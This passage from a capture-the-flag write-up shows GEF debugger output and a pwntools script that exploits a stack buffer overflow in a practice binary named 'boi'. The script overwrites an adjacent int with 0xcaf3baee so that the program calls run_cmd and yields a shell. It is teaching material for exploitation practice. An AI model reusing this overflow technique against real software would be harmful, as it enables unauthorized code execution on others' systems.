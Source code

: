 ```
0x007fffffffdf70│+0x0010: 0x3030303030303030   ← $rsi
0x007fffffffdf78│+0x0018: 0x3030303030303030
0x007fffffffdf80│+0x0020: 0xcaf3baee30303030
0x007fffffffdf88│+0x0028: 0x0000000000000000
0x007fffffffdf90│+0x0030: 0x007fffffffe090  →  0x0000000000000001
0x007fffffffdf98│+0x0038: 0x3496b8bb604aaf00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40069b <main+90>        mov    edi, 0x0
     0x4006a0 <main+95>        call   0x400500 <read@plt>
●    0x4006a5 <main+100>       mov    eax, DWORD PTR [rbp-0x1c]
 →   0x4006a8 <main+103>       cmp    eax, 0xcaf3baee
     0x4006ad <main+108>       jne    0x4006bb <main+122>
     0x4006af <main+110>       mov    edi, 0x40077c
     0x4006b4 <main+115>       call   0x400626 <run_cmd>
     0x4006b9 <main+120>       jmp    0x4006c5 <main+132>
     0x4006bb <main+122>       mov    edi, 0x400786
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped 0x4006a8 in main (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a8 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p $eax
$1 = 0xcaf3baee
gef➤  
```

With all of that, we can write an exploit for this challenge:
```
# Import pwntools
from pwn import *

# Establish the target process
target = process('./boi')

# Make the payload
# 0x14 bytes of filler data to fill the gap between the start of our input
# and the target int
# 0x4 byte int we will overwrite target with
payload = b"0"*0x14 + p32(0xcaf3baee)

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```

When we run it:
![exploit_running](pics/exploit_running.png)

Just like that, we popped a shell!
